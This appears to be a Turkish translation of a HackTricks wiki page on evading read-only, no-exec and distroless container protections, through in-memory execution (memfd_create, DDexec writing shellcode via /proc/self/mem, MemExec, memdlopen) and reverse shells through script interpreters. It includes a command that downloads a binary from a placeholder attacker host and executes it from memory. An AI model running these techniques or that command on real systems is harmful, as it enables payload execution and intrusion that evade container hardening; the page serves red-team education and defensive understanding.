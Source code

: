 # FS korumalarını aşma: yalnızca okunur / çalıştırma yok / Distroless

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** **bizi takip edin** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Eğer **hacking kariyeri** ile ilgileniyorsanız ve hacklenemez olanı hacklemek istiyorsanız - **işe alıyoruz!** (_akıcı Lehçe yazılı ve sözlü gereklidir_).

{% embed url="https://www.stmcyber.com/careers" %}

## Videolar

Aşağıdaki videolarda bu sayfada bahsedilen teknikleri daha derinlemesine bulabilirsiniz:

* [**DEF CON 31 - Linux Bellek Manipülasyonunu Gizlilik ve Kaçış için Keşfetmek**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**DDexec-ng ile Gizli Sızmalar & Bellek İçi dlopen() - HackTricks Takip 2023**](https://www.youtube.com/watch?v=VM_gjjiARaU)

## yalnızca okunur / çalıştırma yok senaryosu

Linux makinelerinin **yalnızca okunur (ro) dosya sistemi koruması** ile monte edilmesi giderek daha yaygın hale geliyor, özellikle konteynerlerde. Bunun nedeni, ro dosya sistemi ile bir konteyner çalıştırmanın **`readOnlyRootFilesystem: true`** ayarını `securitycontext` içinde ayarlamak kadar kolay olmasıdır:

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

Ancak, dosya sistemi ro olarak monte edilse bile, **`/dev/shm`** hala yazılabilir olacak, bu yüzden diske hiçbir şey yazamayacağımız yalan. Ancak, bu klasör **çalıştırma yok koruması** ile monte edilecektir, bu nedenle burada bir ikili dosya indirirseniz **onu çalıştıramayacaksınız**.

{% hint style="warning" %}
Kırmızı takım perspektifinden, bu, sistemde zaten olmayan ikili dosyaları **indirmek ve çalıştırmak** için **zorlaştırıyor** (örneğin arka kapılar veya `kubectl` gibi sayıcılar).
{% endhint %}

## En Kolay Aşma: Scriptler

İkili dosyalardan bahsettiğimi unutmayın, eğer yorumlayıcı makine içinde mevcutsa, **herhangi bir scripti** çalıştırabilirsiniz, örneğin `sh` mevcutsa bir **shell scripti** veya `python` yüklüyse bir **python scripti**.

Ancak, bu yalnızca ikili arka kapınızı veya çalıştırmanız gereken diğer ikili araçları çalıştırmak için yeterli değildir.

## Bellek Aşmaları

Bir ikili dosyayı çalıştırmak istiyorsanız ancak dosya sistemi buna izin vermiyorsa, bunu **bellekten çalıştırarak** yapmak en iyi yoldur, çünkü **korumalar burada geçerli değildir**.

### FD + exec syscall aşması

Makine içinde bazı güçlü script motorlarına sahipseniz, örneğin **Python**, **Perl** veya **Ruby**, ikili dosyayı belleğe indirmek, bir bellek dosya tanımlayıcısında (`create_memfd` syscall) saklamak, bu korumalardan etkilenmeyecek ve ardından **`exec` syscall** çağrısı yaparak **çalıştırılacak dosya olarak fd'yi belirtmek** mümkündür.

Bunun için [**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec) projesini kolayca kullanabilirsiniz. Bir ikili dosya geçirebilir ve belirtilen dilde **ikili dosya sıkıştırılmış ve b64 kodlanmış** bir script oluşturur, ardından **bellekte** `create_memfd` syscall çağrısı yaparak oluşturulan bir **fd** içinde **çözme ve açma** talimatları ile birlikte çalıştırır.

{% hint style="warning" %}
Bu, PHP veya Node gibi diğer script dillerinde çalışmaz çünkü scriptten ham syscall'leri çağırmanın **varsayılan bir yolu yoktur**, bu nedenle ikili dosyayı saklamak için **bellek fd'si** oluşturmak için `create_memfd` çağrısı yapmak mümkün değildir.

Ayrıca, `/dev/shm` içinde bir dosya ile **normal bir fd** oluşturmak işe yaramaz, çünkü **çalıştırma yok koruması** uygulanacağı için bunu çalıştırmanıza izin verilmeyecektir.
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec) tekniği, **kendi sürecinizin belleğini** değiştirmenizi sağlar, bu da **`/proc/self/mem`** dosyasını yazmayı içerir.

Bu nedenle, sürecin yürüttüğü **montaj kodunu kontrol ederek**, bir **shellcode** yazabilir ve süreci **herhangi bir keyfi kodu çalıştıracak şekilde "mutasyona uğratabilirsiniz"**.

{% hint style="success" %}
**DDexec / EverythingExec**, kendi **shellcode'unuzu** veya **herhangi bir ikili dosyayı** **bellekten** yükleyip **çalıştırmanıza** olanak tanır.
{% endhint %}
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
For more information about this technique check the Github or:

{% content-ref url="ddexec.md" %}
[ddexec.md](ddexec.md)
{% endcontent-ref %}

### MemExec

[**Memexec**](https://github.com/arget13/memexec) DDexec'in doğal bir sonraki adımıdır. Bu, **DDexec shellcode demonize edilmiştir**, böylece her seferinde **farklı bir ikili dosya çalıştırmak istediğinizde** DDexec'i yeniden başlatmanıza gerek yoktur, sadece memexec shellcode'u DDexec tekniği aracılığıyla çalıştırabilir ve ardından **yeni ikili dosyaları yüklemek ve çalıştırmak için bu demon ile iletişim kurabilirsiniz**.

**Memexec'i bir PHP ters shell'den ikili dosyaları çalıştırmak için nasıl kullanacağınızla ilgili bir örneği** [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php) adresinde bulabilirsiniz.

### Memdlopen

DDexec ile benzer bir amaca sahip olan [**memdlopen**](https://github.com/arget13/memdlopen) tekniği, ikili dosyaları **hafızaya yüklemenin daha kolay bir yolunu** sağlar ve daha sonra bunları çalıştırmanıza olanak tanır. Hatta bağımlılıkları olan ikili dosyaları yüklemeye bile izin verebilir.

## Distroless Bypass

### Distroless nedir

Distroless konteynerler yalnızca belirli bir uygulama veya hizmeti çalıştırmak için gerekli olan **en temel bileşenleri** içerir, örneğin kütüphaneler ve çalışma zamanı bağımlılıkları, ancak bir paket yöneticisi, shell veya sistem yardımcı programları gibi daha büyük bileşenleri hariç tutar.

Distroless konteynerlerin amacı, **gereksiz bileşenleri ortadan kaldırarak konteynerlerin saldırı yüzeyini azaltmak** ve istismar edilebilecek zafiyet sayısını en aza indirmektir.

### Ters Shell

Bir distroless konteynerde **normal bir shell almak için `sh` veya `bash`** bile bulamayabilirsiniz. Ayrıca `ls`, `whoami`, `id` gibi ikili dosyaları da bulamayacaksınız... genellikle bir sistemde çalıştırdığınız her şey.

{% hint style="warning" %}
Bu nedenle, **ters bir shell** almanız veya sistemi **listelemeniz** mümkün **olmayacaktır**.
{% endhint %}

Ancak, eğer ele geçirilmiş konteyner örneğin bir flask web uygulaması çalıştırıyorsa, o zaman python yüklüdür ve dolayısıyla bir **Python ters shell** alabilirsiniz. Eğer node çalıştırıyorsa, bir Node rev shell alabilirsiniz ve çoğu **betik dili** ile aynı şekilde.

{% hint style="success" %}
Betik dilini kullanarak **sistemi listeleyebilirsiniz**.
{% endhint %}

Eğer **`read-only/no-exec`** korumaları yoksa, ters shell'inizi kullanarak **dosya sistemine ikili dosyalarınızı yazabilir** ve **çalıştırabilirsiniz**.

{% hint style="success" %}
Ancak, bu tür konteynerlerde bu korumalar genellikle mevcut olacaktır, ancak **önceki bellek yürütme tekniklerini kullanarak bunları aşabilirsiniz**.
{% endhint %}

**Bazı RCE zafiyetlerini istismar ederek betik dillerinden **ters shell'ler** almak ve hafızadan ikili dosyaları çalıştırmak için **örnekleri** [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE) adresinde bulabilirsiniz.

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Hackleme kariyerine** ilgi duyuyorsanız ve hacklenemez olanı hacklemek istiyorsanız - **işe alıyoruz!** (_akıcı Lehçe yazılı ve sözlü gereklidir_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
AWS Hackleme öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hackleme öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**'i takip edin.**
* **Hackleme ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
